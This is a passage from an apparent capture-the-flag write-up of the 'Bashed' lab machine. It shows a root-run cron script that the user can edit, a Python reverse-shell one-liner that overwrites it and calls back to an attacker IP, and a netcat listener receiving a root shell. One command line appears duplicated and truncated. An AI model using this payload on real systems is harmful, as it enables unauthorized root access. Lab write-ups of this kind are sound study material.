 ```bash
2025/02/19 00:09:01 CMD: UID=0     PID=18636  | /usr/sbin/CRON -f 
2025/02/19 00:09:01 CMD: UID=0     PID=18640  | python test.py 
<SNIP>
```

The script `test.py` is run by `root`!
Since `test.py` is editable by `scriptmanager`, I can edit this file to spawn a root shell.

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > test.py
cket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > test.py
```

I overwrite `test.py` with reverse shell payload.
After a while, I got a root shell!

```sql
┌──(kali㉿kali)-[/opt/pspy]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 47340
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
root.txt
```

